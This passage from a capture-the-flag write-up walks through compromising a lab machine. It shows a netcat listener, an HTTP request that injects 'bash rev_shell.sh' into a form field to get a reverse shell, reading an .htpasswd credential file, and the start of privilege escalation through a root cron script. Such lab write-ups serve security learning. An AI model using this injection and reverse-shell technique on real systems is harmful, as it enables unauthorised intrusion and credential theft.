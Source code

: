 ```sh
attacker@machine:~$ nc -lvnp 4444
```

And then execute the `rev_shell.sh` script by posting the following HTTP request:

```
POST / HTTP/1.1
Host: 10.10.162.165
Content-Length: 48
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.81.113
Referer: http://10.10.81.113/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

yt_url=;bash${IFS}rev_shell.sh;
```

Voilà! We now have a remote shell. Let's switch to a more comfortable shell by typing `/bin/bash -i`.

At this point, we can retrieve the user that is allowed to access the secret folder by viewing `/***secret_folder***/.htpasswd`:

```sh
www-data@dmv:/var/www/html$ cat ***secret_folder***/.htpasswd
***user***:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

Thanks to the reverse shell we killed two birds with a stone since we can also retrieve the **user flag**:

```sh
www-data@dmv:/var/www/html$ cat ***secret_folder***/flag.txt
***user_flag***
```

## Privilege Escalation

To get the root flag we have to elevate our privileges. If we go back to the directories enumeration step, we had found the `/tmp`. By looking inside it, we can discover a script called `clean.sh`:

```sh
www-data@dmv:/var/www/html$ cat tmp/clean.sh
rm -rf downloads
```

It could be a cron job, as the aim of the script would suggest. We can investigate it by using [pspy](https://github.com/DominicBreuker/pspy). So let's upload it to the remote machine and execute it:

```sh
www-data@dmv:/var/www/html$ ./pspy64s

2020/11/21 17:31:42 CMD: UID=0    PID=1388   | 
2020/11/21 17:32:01 CMD: UID=0    PID=1392   | 
2020/11/21 17:32:01 CMD: UID=0    PID=1391   | bash /var/www/html/tmp/clean.sh 
2020/11/21 17:32:01 CMD: UID=0    PID=1390   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2020/11/21 17:32:01 CMD: UID=0    PID=1389   | /usr/sbin/CRON -f 
```
